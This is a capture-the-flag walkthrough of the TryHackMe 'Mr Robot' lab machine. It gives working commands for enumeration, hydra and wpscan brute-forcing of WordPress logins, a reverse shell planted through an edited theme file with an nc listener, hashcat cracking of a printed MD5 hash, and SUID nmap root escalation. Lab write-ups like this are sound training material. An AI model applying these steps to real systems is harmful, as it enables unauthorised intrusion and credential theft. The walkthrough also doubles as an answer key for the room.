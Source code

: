 *2021-09-18*

*kimm3*

# Walkthrough: Mr Robot
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/mrrobot)

Mr. Robot themed box.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

`script history/enum1; export IP=10.10.188.192; ping $IP;`

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210918080156789.png)

![index-p80](assets/markdown-img-paste-20210918075547670.png)

A really cool site with a shell inspired from the TV show. The commands return cool stuff from the show, but nothing useful. The 'join' command let's you enter an email address. Site dosen't return anything different based on input. It dosen't send anything to email address.

![post-join](assets/markdown-img-paste-20210918080854341.png)

![index-p443-warning](assets/markdown-img-paste-20210918080102662.png)

Same site but with https.

![index-p443](assets/markdown-img-paste-20210918080131245.png)

`ffuf -u "http://10.10.47.240/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-init80`

The search takes alot of time, but with the inital results, we can identify that it hosts a wordpress site.

![ffuf-init](assets/markdown-img-paste-20210918090801400.png)

![403-forbidden](assets/markdown-img-paste-20210918083030879.png)

We don't have access to the blog url, but if we just type a lot of junk after we get the wordpress 404(not found) site.

![random-404](assets/markdown-img-paste-20210918083042324.png)

![readme](assets/markdown-img-paste-20210918083529167.png)

The readme file.

![robotstxt](assets/markdown-img-paste-20210918084213122.png)

The robots.txt give us a filename that contains one of the keys, also a dictionary/wordlist file.

![key1txt](assets/markdown-img-paste-20210918084307405.png)

1 of 3 complete.

`wpscan --url http://10.10.47.240/ -e`

`wpscan --url http://10.10.47.240/ --enumerate u1-1000`

![enum-users-1000](assets/markdown-img-paste-2021091808585164.png)

Not being able to enumerate users via ID. Having seen the show I tried 'elliot' which existed.

![elliot](assets/markdown-img-paste-2021091809133023.png)

If I hadn't seen the show, you could have gotten the username with a public wordlist, or the fsocity.dic, using hydra:

```
hydra -L sl/Usernames/Names/names.txt -p test 10.10.47.240 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.47.240%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```

![hydra-elliot](assets/markdown-img-paste-20210918103650511.png)

(This only test if the username exists, 'test' is not the password.)

Now we can try to brute-force elliots password. Generating a custom wordlist with elliots last name, birthday, pet name.

![cupp-elliot](assets/markdown-img-paste-20210918120241836.png)

`wpscan --password-attack "wp-login" --url "http://10.10.47.240/" -U 'elliot' -P elliot.txt`

![wpscan-elliottxt-pw](assets/markdown-img-paste-20210918120316547.png)

Nothing, let's try to use the fsocity.dic that we found in the 'robots.txt'. The file has a huge number of lines, but most of them are dupclicates:

![uniqe-lines](assets/markdown-img-paste-20210923091023533.png)

Sorting out all dupclicates

`sort foundfiles/fsocity.dic | uniq > foundfiles/fsocity.dic.sort`

The webserver is really slow, so if you don't sort them out or start from the bottom of the list, it will take longer to scan than you can have a machine active on TryHackMe. Even with this shorter list and 32 threads, it took hydra nearly 30 minutes to go through the wordlist.

![hydra-elliot](assets/markdown-img-paste-20210923103733923.png)

` hydra -l elliot -P foundfiles/fsocity.dic.sort 10.10.137.132 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.137.132%2Fwp-admin%2F&testcookie=1:F=login_error" -f -t 32`

## Foothold
Now that we have a wp-admin login, we can change php files to inlcude reverse shells and execute them to gain a foothold. To automate the process with metasploit, use `exploit/unix/webapp/wp_admin_shell_upload`.

![revshphp](assets/markdown-img-paste-20210923104055876.png)

![404-edited](assets/markdown-img-paste-20210923104135963.png)

```
nc -lvnp 445
curl http://10.10.137.132/wp-content/theme/twentyfifteen/404.php
```

![foothold](assets/markdown-img-paste-20210923104643291.png)

The second flag is in the robot home folder, but only robot user can read it. It seems that a md5 hash of robots password is saved in cleartext.

![md5password](assets/markdown-img-paste-20210923105050218.png)

`hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b foundfiles/fsocity.dic.sort`

![hc-md5-exhausted](assets/markdown-img-paste-20210923105333452.png)

`hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b sl/Passwords/Leaked-Databases/rockyou.txt`

![hc-md5-cracked](assets/markdown-img-paste-20210923105400948.png)

![key2-of-3txt](assets/markdown-img-paste-20210923105644747.png)

Key 2 of 3 complete.
## Privilege Escalation
![roottxt](assets/markdown-img-paste-2021092311092189.png)

Key 3 of 3 and prives was rather easy. Search for setuids with:

`find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

One that stands out is nmap. There are several vulnerabilities if you can run nmap as root. The easiest is starting it in interactive mode wich allows us to run system commands from inside nmap.

`!sh`

For more setuid vulns, see [this link](https://gtfobins.github.io/gtfobins/nmap/).
